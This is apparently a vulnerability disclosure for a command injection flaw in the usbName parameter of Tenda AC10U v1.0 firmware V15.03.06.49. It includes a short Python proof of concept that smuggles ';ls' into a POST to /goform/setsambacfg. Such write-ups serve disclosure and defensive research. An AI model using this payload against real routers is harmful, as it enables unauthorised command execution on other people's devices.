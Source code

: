 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3795.html

## Affected version

AC10U v1.0 Firmware V15.03.06.49

## Vulnerability details

The Tenda AC10U v1.0 V15.03.06.49 firmware, we discovered a command injection vulnerablility in the `usbName` parameter and the `usbname`varable is directly passed to a `doSystemCmd` function, causing an arbitrary command execution. The user-provided `usbName` can trigger this security vulnerability.

![image-20240316184111386](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316184111386.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/setsambacfg"
payload = ";ls"

data = {"action":"del","usbName": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240316180711436](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316180711436.png)
